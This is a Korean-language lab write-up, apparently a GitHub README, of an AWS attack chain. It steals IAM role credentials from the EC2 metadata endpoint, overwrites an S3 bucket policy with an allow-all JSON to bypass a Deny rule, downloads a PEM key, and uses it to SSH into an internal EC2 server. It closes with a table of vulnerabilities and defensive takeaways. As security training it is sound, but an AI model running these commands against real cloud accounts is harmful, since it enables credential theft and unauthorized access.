








> ⚠️ 주의  
> 이 문서는 보안 학습 및 승인된 테스트 환경에서의 실습 내용을 정리한 기록이다.  
> 실제 시스템에 대한 무단 접근이나 권한 남용을 목적으로 작성된 것이 아니다.

# 🛡️ AWS S3 기반 자격 증명 탈취 및 Lateral Movement 과정 정리

이미 웹쉘을 통해 장악한 WAS 서버에서  
IAM Role 및 AWS 자격 증명을 활용하여

- S3 버킷 접근
- 백업 파일 탐색
- PEM 키 탈취
- 내부 EC2 서버 접근

까지 이어지는 **Cloud Lateral Movement 공격 흐름**을 정리한 실습 기록이다.

---

## 실습 환경

    10.0.23.181   (최종 타겟 EC2 내부 IP)

---

## 1. AWS 인프라 정보 수집 (Reconnaissance)

### IAM Role 확인

    curl http://169.254.169.254/latest/meta-data/iam/security-credentials

### IAM Role 기반 자격 증명 탈취

    curl http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2-Discovery-Role

장악한 WAS 서버에 부여된 IAM Role 정보를 통해  
임시 자격 증명(Access Key, Secret Key, Session Token)을 확보한다.

---

## 2. 공격자 환경에 AWS 자격 증명 설정

    unset AWS_SESSION_TOKEN
    unset AWS_ACCESS_KEY_ID
    unset AWS_SECRET_ACCESS_KEY

    export AWS_ACCESS_KEY_ID="ASIA***************"
    export AWS_SECRET_ACCESS_KEY="************************"
    export AWS_SESSION_TOKEN="************************"
    export AWS_DEFAULT_REGION="ap-northeast-2"

---

### 버킷 확인 및 다운로드 시도 실패
    aws s3 ls
    aws s3 ls s3://book-village/backup/ --recursive

```
aws s3 cp s3://book-village-s3/backup/Book-Village.pem ./Book-Village.pem
```

## 3. IAM Role 권한 분석

### 관리형 정책 확인

    aws iam list-attached-role-policies --role-name EC2-Discovery-Role

### 인라인 정책 확인

    aws iam list-role-policies --role-name EC2-Discovery-Role

### 인라인 정책 상세 조회

    aws iam get-role-policy --role-name EC2-Discovery-Role --policy-name Book-Village

IAM Role이 S3 접근 및 정책 수정 권한을 보유하고 있는지 확인한다.

---

## 4. S3 버킷 정책 확인 및 우회

### 버킷 정책 조회

    aws s3api get-bucket-policy --bucket book-village

backup 폴더에 대한 Deny 정책 존재 확인

---

### 정책 우회를 위한 JSON 생성

    nano unlock.json
<details>
<summary>unlock.json 코드 눌러서 펼치기</summary>
    {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Principal": "*",
                "Action": "s3:*",
                "Resource": [
                    "arn:aws:s3:::book-village",
                    "arn:aws:s3:::book-village/*"
                ]
            },
            {
                "Effect": "Allow",
                "Principal": "*",
                "Action": "s3:*",
                "Resource": "arn:aws:s3:::book-village/backup/*"
            }
        ]
    }
</details>

---

### 버킷 정책 덮어쓰기

    aws s3api put-bucket-policy \
    --bucket book-village \
    --policy file://unlock.json

기존 Deny 정책을 무력화하고 전체 접근 권한 확보

---

## 5. S3 데이터 탐색 및 PEM 키 탈취

### S3 파일 목록 확인

    aws s3 ls s3://book-village/backup/

### PEM 키 다운로드

    aws s3 cp s3://book-village/backup/Book-Village.pem ./Book-Village.pem

### 권한 설정

    chmod 400 Book-Village.pem

EC2 접속용 Private Key 확보

---

## 6. 타겟 EC2 서버 접근 (Lateral Movement)

    ssh -i Book-Village.pem ubuntu@[퍼블릭IP]

탈취한 키를 이용하여 내부망 EC2 서버 접근 성공

---

## 7. 공격 흐름 요약

    [Attacker]
          │
          ▼ (Webshell)
    [WAS Server]
          │
          │ IAM Role / AWS Key 탈취
          ▼
    [AWS Account]
          │
          │ S3 Bucket 정책 변경
          ▼
    [S3 Bucket]
          │
          │ PEM Key 탈취
          ▼
    [Target EC2]

---

## 8. 핵심 취약점 정리

| 구분 | 취약점 |
|------|--------|
| 인증 | EC2 IAM Role 과도한 권한 |
| 자격 증명 | 환경변수 내 AWS Key 노출 |
| 접근제어 | S3 Bucket Policy 수정 가능 |
| 데이터 보호 | PEM 키 S3에 평문 저장 |
| 네트워크 | 내부망 EC2 직접 접근 가능 |

---

## 9. 보안 관점 핵심 요약

- Webshell + IAM Role = Cloud 전체 확장 가능
- S3는 자격 증명 저장소로 악용될 수 있음
- PEM 키 유출 시 내부 서버 직접 접근 가능

---

## 🔥 결론

서버 하나가 침해되면  
IAM Role 및 S3를 통해  
AWS 전체 인프라로 공격이 확장될 수 있다.